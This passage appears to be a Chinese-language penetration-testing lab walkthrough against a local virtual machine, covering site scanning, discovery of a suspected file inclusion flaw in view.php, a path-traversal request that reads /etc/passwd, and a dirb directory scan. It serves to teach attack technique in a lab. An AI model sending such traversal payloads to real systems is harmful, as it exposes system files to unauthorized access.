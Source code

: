 ![image-20220315150825598](https://gitee.com/xxb667/img/raw/master/img/image-20220315150825598.png)

## 1.4 御剑扫描

```
192.168.81.142
```

得到一个网址

```
http://192.168.81.142/index.html
```

![image-20220315151255042](https://gitee.com/xxb667/img/raw/master/img/image-20220315151255042.png)



# 2.漏洞探测

## 2.1 网页探测

```
http://192.168.81.142/#portfolio
```

![image-20220315152726382](https://gitee.com/xxb667/img/raw/master/img/image-20220315152726382.png)

下面这个网址可能存在文件包含漏洞

```
http://192.168.81.142/view.php?page=tools.html
```

![image-20220315152825819](https://gitee.com/xxb667/img/raw/master/img/image-20220315152825819.png)

测试文件是否存在文件包含漏洞

```
http://192.168.81.142/view.php?page=../../../../../../../../../../../../etc/passwd
```

![image-20220315153009295](https://gitee.com/xxb667/img/raw/master/img/image-20220315153009295.png)

## 2.2 目录扫描 

```
dirb http://192.168.81.142
```

![image-20220315153349298](https://gitee.com/xxb667/img/raw/master/img/image-20220315153349298.png)

![image-20220315153412085](https://gitee.com/xxb667/img/raw/master/img/image-20220315153412085.png)
